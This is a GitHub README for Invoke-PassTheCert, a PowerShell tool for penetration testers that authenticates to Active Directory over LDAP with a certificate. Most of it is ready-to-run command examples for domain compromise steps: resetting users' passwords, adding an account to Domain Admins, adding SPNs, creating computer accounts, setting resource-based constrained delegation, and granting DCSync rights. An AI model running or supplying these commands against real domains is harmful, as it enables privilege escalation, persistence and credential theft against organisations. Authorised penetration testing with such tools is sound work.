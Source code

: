 # Invoke-PassTheCert

Invoke-PassTheCert is a pure PowerShell port of PassTheCert. The purpose of this repository is to expand the landscape of PowerShell tooling available to Penetration testers. 

The original work by AlmondOffsec can be found here: https://github.com/AlmondOffSec/PassTheCert along with the accompanying blog post: https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html

Sometimes, Domain Controllers do not support PKINIT. This can be because their certificates do not have the Smart Card Logon EKU. However, several protocols, including LDAP, support Schannel, thus authentication through TLS.

---

## Note
If the certificate is password protected you will need to provide the ```-CertificatePassword``` parameter.
The ```-Certificate``` parameter accepts either a path to a PFX file or a Base64 encoded certificate ```MIINA...```

---

## Basic Usage

```powershell
Invoke-PassTheCert -Server "dc01.domain.com" -Certificate "cert.pfx" -Whoami
```

---

## Command Reference

#### Whoami
Display the current identity authenticated via the certificate.
```powershell
Invoke-PassTheCert -Server "dc01.domain.com" -Certificate "cert.pfx" -Whoami
```

---

### Reset Password
Reset a target user's password to a random value.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -ResetPassword "CN=John Doe,CN=Users,DC=domain,DC=com"
```

---

## Add SPN
Adds an SPN (e.g., `cifs/fake.domain.com`) to a user object.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddSPN "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Remove SPN
Removes SPN from target.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveSPN "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Add to Group
Adds a user or computer to a specified group.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddToGroup "CN=John Doe,CN=Users,DC=domain,DC=com" -GroupDN "CN=Domain Admins,CN=Users,DC=domain,DC=com"
```

---

### Remove from Group
Removes a user or computer from a group.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveFromGroup "CN=John Doe,CN=Users,DC=domain,DC=com" -GroupDN "CN=Domain Admins,CN=Users,DC=domain,DC=com"
```

---

### Toggle Account Status
Enables or disables a user/computer account.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -ToggleAccountStatus "CN=svc_user,CN=Users,DC=domain,DC=com"
```

---

### Add Computer
Adds a new computer account to the domain. A random password will be generated if ```-ComputerPassword``` is omitted.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddComputer "NewPC01" -ComputerPassword "Summer2025!"
```

---

### Remove Computer
Removes a computer object from the domain.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveComputer "CN=NewPC01,CN=Computers,DC=domain,DC=com"
```

---

### Add RBCD (Resource-Based Constrained Delegation)
Grants RBCD rights to a specified user/computer by SID.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -AddRBCD "CN=TargetPC,CN=Computers,DC=domain,DC=com" -SID "S-1-5-21-..."
```

---

### Remove RBCD
Removes RBCD rights from a target object.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -RemoveRBCD "CN=TargetPC,CN=Computers,DC=domain,DC=com"
```

---

### Elevate
Grants a user rights to perform DCSync by modifying the domain security descriptor.
```powershell
Invoke-PassTheCert -Server "dc01" -Certificate "cert.pfx" -Elevate "CN=svc_user,CN=Users,DC=domain,DC=com"
```

## Future Addtions
- Support for Start TLS
- Shadow Credential Attacks
- LDAP interactive Shell

---
